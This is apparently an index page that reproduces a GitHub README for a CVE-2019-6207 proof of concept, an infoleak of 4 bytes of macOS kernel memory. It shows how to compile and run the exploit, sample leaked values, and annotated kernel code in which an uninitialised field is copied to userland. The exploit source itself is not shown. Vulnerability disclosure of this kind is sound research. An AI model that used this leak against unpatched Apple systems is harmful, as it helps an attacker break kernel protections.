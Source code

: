 # cve-2019-6207

MacOS kernel memory leak (4 bytes)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/DimitriFourny](https://github.com/DimitriFourny) |
| Url      | [https://github.com/DimitriFourny/cve-2019-6207](https://github.com/DimitriFourny/cve-2019-6207)                                               |
| Stars    | 27                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* 1day

</details>

## Readme

# CVE-2019-6207 

```
$ clang exploit.c -o exploit
$ ./exploit

CVE-2019-6207 exploit to leak 4 bytes of arbitrary kernel memory
Tested on MacOS 10.14.1, should works on:
MacOS < 10.14.4 ; iOS < 12.2 ; tvOS < 12.2 ; watchOS < 5.2

Buffer length = 0x188
rt_msghdr.rtm_inits (+0x20): 0x00001000
rt_msghdr.rtm_inits (+0x20): 0x0075002F
rt_msghdr.rtm_inits (+0x20): 0x119F2000
rt_msghdr.rtm_inits (+0x20): 0x119F2000
rt_msghdr.rtm_inits (+0x20): 0x119F2000
rt_msghdr.rtm_inits (+0x20): 0x5A0201D1
rt_msghdr.rtm_inits (+0x20): 0x0889B000
rt_msghdr.rtm_inits (+0x20): 0xDEADBEEF
rt_msghdr.rtm_inits (+0x20): 0x119F2000
rt_msghdr.rtm_inits (+0x20): 0x6573752F
rt_msghdr.rtm_inits (+0x20): 0x119F5000
rt_msghdr.rtm_inits (+0x20): 0x119F5000
```

# Vulnerability

```cpp
static int sysctl_dumpentry(struct radix_node *rn, void *vw) {
  if (w->w_op != NET_RT_DUMP2) {
    int size = rt_msg2(RTM_GET, &info, NULL, w, credp); 
    if (w->w_req != NULL && w->w_tmem != NULL) {
      struct rt_msghdr *rtm =
          (struct rt_msghdr *)(void *)w->w_tmem; // memory not init

      rtm->rtm_flags = rt->rt_flags;
      rtm->rtm_use = rt->rt_use;
      rt_getmetrics(rt, &rtm->rtm_rmx);
      rtm->rtm_index = rt->rt_ifp->if_index;
      rtm->rtm_pid = 0;
      rtm->rtm_seq = 0;
      rtm->rtm_errno = 0;
      rtm->rtm_addrs = info.rti_addrs;
      // rtm->rtm_inits not init
      error = SYSCTL_OUT(w->w_req, (caddr_t)rtm, size); // leak to the userland
    }
  }
}

static int rt_msg2(/* ... */ struct walkarg *w) {
  //...
  // Allocation of `w_tmem` but no initialisation
  rw->w_tmem = _MALLOC(len, M_RTABLE, M_WAITOK); 
  //...
}
```


## Get the content

```
git clone https://github.com/DimitriFourny/cve-2019-6207
cd cve-2019-6207
```

{% embed url="https://github.com/DimitriFourny/cve-2019-6207" %}

<figure><img src="https://avatars.githubusercontent.com/u/17668518?v=4" alt=""><figcaption><p>DimitriFourny</p></figcaption></figure>
